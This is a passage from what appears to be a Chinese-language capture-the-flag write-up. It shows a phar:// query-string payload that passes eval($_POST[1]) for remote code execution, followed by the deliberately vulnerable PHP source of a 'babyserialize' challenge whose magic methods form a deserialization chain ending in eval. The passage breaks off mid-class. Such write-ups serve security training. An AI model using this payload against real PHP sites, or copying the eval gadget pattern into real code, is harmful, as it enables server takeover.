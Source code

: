 ```php
?bingdundun=phar://ec55f5fc31569b0d0c18289f304e1540.zip/exp&1=eval($_POST[1]);
```

### babyserialize

直接给出源码

```php
<?php
include "waf.php";
class NISA{
    public $fun="show_me_flag";
    public $txw4ever;
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }
}

class TianXiWei{
    public $ext;
    public $x;
    public function __wakeup()
    {
        $this->ext->nisa($this->x);
    }
}

class Ilovetxw{
    public $huang;
    public $su;

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0];
    }

    public function __toString(){
        $bb = $this->su;
        return $bb();
    }
}

class four{
    public $a="TXW4EVER";
    private $fun='abc';

    public function __set($name, $value)
```